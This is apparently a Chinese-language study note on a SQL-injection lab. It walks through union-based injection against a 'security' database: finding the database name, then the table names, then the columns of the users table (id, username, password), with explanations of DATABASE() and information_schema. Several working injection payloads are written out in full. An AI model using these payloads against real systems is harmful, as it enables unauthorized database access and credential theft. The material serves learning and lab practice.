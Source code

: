 ```
id=-2' union select 1,database(),3 --+

库名是security
```

MySQL中的DATAbase()函数返回默认或当前数据库的名称。DATAbase()函数返回的字符串或名称使用utf8字符集。如果没有默认数据库，则Database函数返回NULL。

在比MySQL 4.1.1更旧的版本中，如果没有默认数据库，则数据库函数用于返回空字符串。

语法 ：SELECT DATAbase();

DATAbase()函数易于使用，不接受任何参数。我们可以使用MySQL控制台上的上述语法轻松获取默认数据库的名称。

示例：

让我们考虑默认数据库的名称是“Employees”。因此，要知道默认数据库的名称，可以通过以下方式执行数据库功能：![image-20221230145352309](file:///C:/Users/Fzzf/AppData/Roaming/Typora/typora-user-images/image-20221230145352309.png)

## 根据库名找到表名

```
id=-2' union select 1,table_name,3 from information_schema.tables where table_schema = 'security' limit 0,1 --+
```

查到表名emails，referers，uagents，users

------

mysql数据库中有一些表（是view，只能做select操作）记录了现有表的meta data，比如某个column的名字，它的定义是什么等等。

列出test数据库中所有的表名，类型(普通表还是view)和使用的引擎

select table_name, table_type, engine

FROM information_schema.tables

WHERE table_schema = ‘库名’

ORDER BY table_name DESC;

解释： 对表的meta data的查询需要使用information_schema.tables， table_schema是数据库的名称，table_name是具体的表名，table_type指的是表的类型

------

黑客觉得users里面的数据很有前途

## 根据表名找到users里的列名

```
id=-2' union select 1,column_name,3 from information_schema.columns where table_schema = 'security' and table_name = 'users' limit 0,1 --+
```

发现users里有id，username，password

## 拿到所有的username和password的值
